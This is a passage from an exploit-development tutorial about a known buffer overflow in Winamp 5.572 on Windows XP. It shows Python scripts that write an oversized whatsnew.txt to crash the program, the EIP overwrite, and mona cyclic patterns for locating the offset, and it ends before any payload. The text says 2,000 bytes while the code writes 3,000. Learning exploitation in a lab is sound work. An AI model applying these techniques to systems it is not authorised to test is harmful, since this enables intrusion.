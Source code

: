 


# Windows Example - Winamp 5.572 on XP

As documented on [exploit-db](https://www.exploit-db.com/exploits/11256) this old version of winamp had a buffer overflow vulnerability in part of its help menu, which loads its release notes from a plain text file called `whatsnew.txt` in its install path.


**Setup**

Setup requirements for VM:

* Windows XP SP3
* Winamp 5.572
* Immunity Debugger with mona extension
* Python


**Step 1: Find the overflow tipping point**

The key to leveraging a buffer overflow is to locate the offset in bytes needed in order to gain control of the `EIP` (instruction pointer). One brute force way of doing this is to simply flood the buffer with a huge amount of the same bytes, observing the register state when the program crashes.

In the case of winamp, flood the buffer with 2,000 `A` (`0x41`) character bytes:

```python
buf = "Winamp 5.572"
buf += "A"*3000

with open('whatsnew.txt', 'w') as file:
    file.write(buf)
```

Replace the original `whatsnew.txt` with the above, and run winamp using Immunity, go to the Help | About Winamp | Version History, triggering a segmentation fault. Examine the `EIP` register.

    EIP 41414141

Bingo! They're all `A` ascii characters. Now we need a way to determine the exact number of bytes until the `EIP` is controlled. A unique pattern of bytes would be perfect. Enter [mona](https://github.com/corelan/mona), which bolsters immunity debugger with a bunch of handy automation around exploitation related activities. In Immunity run the following:

    !mona pattern_create 3000

This will create a 3000 byte long unique cyclic string in a file called `pattern.txt` in the immunity home directory:

    Message=Creating cyclic pattern of 3000 bytes
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2...

Replace the `A` bytes with the pattern bytes, and segfault winamp again. 

```python
buf = "Winamp 5.572"
buf += "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa..."

with open('whatsnew.txt', 'w') as file:
    file.write(buf)
```
